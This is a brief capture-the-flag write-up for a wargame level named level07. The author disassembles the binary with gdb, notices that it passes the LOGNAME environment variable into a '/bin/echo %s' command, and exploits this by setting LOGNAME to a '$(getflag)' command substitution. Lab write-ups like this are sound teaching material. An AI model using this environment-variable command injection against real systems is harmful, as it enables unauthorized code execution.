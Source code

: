 ## level07

There is a level07 executable that displays "level07".

I used gdb to disassemble the program:

```
gdb ./level07
disass main
```

```
[...]
0x0804856f <+91>:    movl   $0x8048680,(%esp)               // x/s 0x8048680: LOGNAME
0x08048576 <+98>:    call   0x8048400 <getenv@plt>
0x0804857b <+103>:   mov    %eax,0x8(%esp)
0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)            // x/s 0x8048688: "/bin/echo %s "
0x08048587 <+115>:   lea    0x14(%esp),%eax
0x0804858b <+119>:   mov    %eax,(%esp)
0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
[...]
```

It is clear that the program makes a call to getenv to get the value of the environment variable LOGNAME, and then display it with /bin/echo.

Not surprisingly, the environment variable LOGNAM is currently equal to 'level07'. All I need to do is change the LOGNAME environment variable so that the program displays what I want.

`export 'LOGNAME=$(getflag)' ; ./level07` and it's done.